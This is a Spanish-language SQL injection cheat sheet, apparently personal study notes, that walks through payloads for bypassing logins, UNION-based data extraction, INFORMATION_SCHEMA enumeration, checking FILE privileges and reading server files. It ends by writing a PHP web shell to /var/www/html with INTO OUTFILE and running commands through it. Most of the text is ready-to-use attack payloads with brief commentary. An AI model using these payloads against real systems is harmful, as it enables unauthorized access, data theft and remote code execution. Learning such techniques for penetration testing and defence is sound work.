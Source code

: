 
## Básico

-Consulta inicial
```
SELECT * FROM logins WHERE username=''' AND password='cualquiera';

```
-SQLi
```
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='cualquiera';
```
-Si no sabes el usuario
```
SELECT * FROM logins WHERE username='loquesea' OR '1'='1' AND password='algo' OR '1'='1';
```
te loggea como el primer usuario de la tabla(usualmente admin)

## Comentarios

-Bypass con comentario
```
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'algo';
```
IMPORTANTE: el comentario -- tiene que tener un espacio después, te puedes asegurar de ello usando -- -

## UNION

Te hace un mezcladillo con las dos tablas que le des, interesante cuando quieres leer info de otras tablas

-REQUISITOS: la tabla inicial con la tabla aderida con el union tienen que tener el mismo numero de columnas, si no dará error

-unión de tablas ports y ships
```
SELECT * FROM ports UNION SELECT * FROM ships;
```

-Si no sabes que tipo de dato almacena las columnas es mejor usas NULL pues se adapta a todas, y para saber cuantas columnas hay es bueno hacer union e ir probando un numero hasta que deje de dar error
```
UNION SELECT username, NULL, NULL, NULL FROM passwords-- 
```
## DATABASE ENUMERATION

para saber en que base de datos estamos usar : database()
### Fingerprinting

![Uploading image.png…]()


### INFORMATION_SCHEMA

`INFORMATION_SCHEMA` es una **base de datos especial** que contiene metadatos (nombres de tablas, columnas, etc.) de **todas las bases de datos** del servidor.

Pero como está en otra base de datos, para acceder a sus tablas usamos el operador **`.`** (punto).  
Ejemplo:
```
SELECT * FROM my_database.users;
```

### SCHEMATA

Contiene todas las bases de datos. Para verlas:
```
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

### TABLES

La tabla `INFORMATION_SCHEMA.TABLES` contiene **una fila por cada tabla** que existe en **todas las bases de datos** del servidor.

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'clientes_db';
```


### COLUMNS

La tabla `INFORMATION_SCHEMA.COLUMNS` contiene información sobre **todas las columnas** de todas las tablas en todas las bases de datos.

```
SELECT COLUMN_NAME
FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'usuarios' AND TABLE_SCHEMA = 'clientes_db';
```

## Lectura de archivos

### Privilegios necesarios

En MySQL y MaríaDB necesitas de los privilegios 'FILE', para comprobarlo:
```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

### que usuario soy ? 

```
cn' UNION SELECT 1, USER(), 3, 4-- -
```

### Leer archivo

```
SELECT LOAD_FILE('/ruta/al/archivo');
```

## Escritura en archivos (RCE) 

(epico para web shell )

### Permisos necesarios

-FILE:
```
SELECT privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"
```
-secure_file_priv
```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

- **Si devuelve NULL** → no puedes leer ni escribir archivos.
- **Si devuelve vacío** (`""`) → puedes leer/escribir en todo el sistema.
- **Si devuelve una ruta** (ej. `/var/lib/mysql-files`) → solo puedes escribir ahí.

### Web shell

-Payload
```
<?php system($_REQUEST[0]); ?>
```
-SQLi
```
cn' UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```
-Luego puedes hacer:
```
http://target/shell.php?0=id
```
